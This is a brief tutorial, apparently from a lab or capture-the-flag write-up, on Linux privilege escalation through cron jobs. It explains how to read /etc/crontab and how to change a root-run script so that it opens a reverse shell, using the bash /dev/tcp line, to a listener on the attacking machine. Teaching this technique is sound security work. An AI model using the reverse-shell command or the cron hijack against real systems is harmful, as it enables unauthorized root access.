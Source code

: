 # Cron jobs : 

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under 

  
    /etc/crontab
    
 
![crontab](https://user-images.githubusercontent.com/94765997/162629920-414a4311-fb87-4454-b684-132681eea082.png)

As our current user can access this script backup.sh , we can easily modify it to create a reverse shell, hopefully with root privileges.

The script will use the tools available on the target system to launch a reverse shell .
  
    bash -i >& /dev/tcp/@/N_port 0>&1

![catback](https://user-images.githubusercontent.com/94765997/162630021-89e2f7a3-12e7-4fe1-811c-1bd3c50b4437.png)

![19](https://user-images.githubusercontent.com/94765997/162630043-cefb943a-77e3-4257-8a16-9e38b8c6cd72.png)

We will now run a listener on our attacking machine to receive the incoming connection : 

![20](https://user-images.githubusercontent.com/94765997/162630121-4e400743-95dc-40d9-a76c-eb3a0085b6af.png)
